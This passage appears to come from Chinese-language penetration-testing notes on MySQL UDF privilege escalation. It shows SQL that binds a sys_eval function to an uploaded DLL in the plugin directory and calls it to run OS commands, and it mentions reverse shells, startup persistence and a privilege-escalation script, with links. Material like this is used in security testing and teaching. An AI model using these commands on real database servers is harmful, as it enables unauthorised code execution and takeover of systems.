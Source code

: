 会发现我们 plugin 的路径下被上传了一个 dll 文件

<img src=".\图片\Snipaste_2023-02-13_16-18-21.png" alt="Snipaste_2023-02-13_16-18-21" style="zoom:67%;" />

```
Navicat：
开外联后使用MSF导出，在执行后续命令调用执行
select * from mysql.func where name = "sys_exec"; //查看
create function sys_eval returns string soname "bJzuHdpS.dll";//创建函数绑定dll
select sys_eval("whoami");//调用函数进行命令执行
```

<img src=".\图片\Snipaste_2023-02-13_16-21-45.png" alt="Snipaste_2023-02-13_16-21-45" style="zoom:80%;" />

其他还有反弹 shell 和开机启动项和暗月提权脚本等，参考下链接

https://www.cnblogs.com/sfsec/p/15241860.html

https://blog.csdn.net/weixin_43801718/article/details/105493042
